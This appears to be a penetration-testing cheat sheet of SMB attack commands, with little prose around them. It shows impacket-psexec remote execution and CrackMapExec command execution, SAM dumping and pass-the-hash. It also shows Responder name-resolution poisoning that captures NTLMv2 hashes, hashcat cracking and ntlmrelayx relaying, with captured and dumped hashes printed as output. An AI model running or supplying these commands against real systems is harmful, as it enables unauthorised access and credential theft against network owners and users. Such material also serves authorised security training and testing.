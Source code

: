 ### Remote Code Execution (RCE)

impacket-psexec -h
impacket-psexec administrator:'Password123!'@$TARGET
C:\Windows\system32>whoami && hostname

### CrackMapExec

Execute PowerShell commands :
crackmapexec smb $TARGET -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec

Enumerating Logged-on Users :
crackmapexec smb $TARGET -u administrator -p 'Password123!' --loggedon-users

Extract Hashes from SAM Database :
crackmapexec smb $TARGET -u administrator -p 'Password123!' --sam

Pass-the-Hash (PtH) :
crackmapexec smb $TARGET -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE

### Forced Authentication Attacks

responder -I <interface name>

sudo responder -I ens33

[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Domain Master Browser)
[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Browser Election)
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[*] [LLMNR]  Poisoned answer sent to 10.10.110.17 for name mysharefoder
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[SMB] NTLMv2-SSP Client   : 10.10.110.17
[SMB] NTLMv2-SSP Username : WIN7BOX\demouser
[SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:997b18cc61099ba2:3CC46296B0CCFC7A231D918AE1DAE521:0101000000000000B09B51939BA6D40140C54ED46AD58E890000000002000E004E004F004D00410054004300480001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D0042003100320008003000300000000000000000000000003000004289286EDA193B087E214F3E16E2BE88FEC5D9FF73197456C9A6861FF5B5D3330000000000000000

hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt

cat /etc/responder/Responder.conf | grep 'SMB ='
SMB = Off


impacket-ntlmrelayx --no-http-server -smb2support -t $TARGET

[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:92512f2605074cfc341a7f16e5fabf08:::
demouser:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
test:1001:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
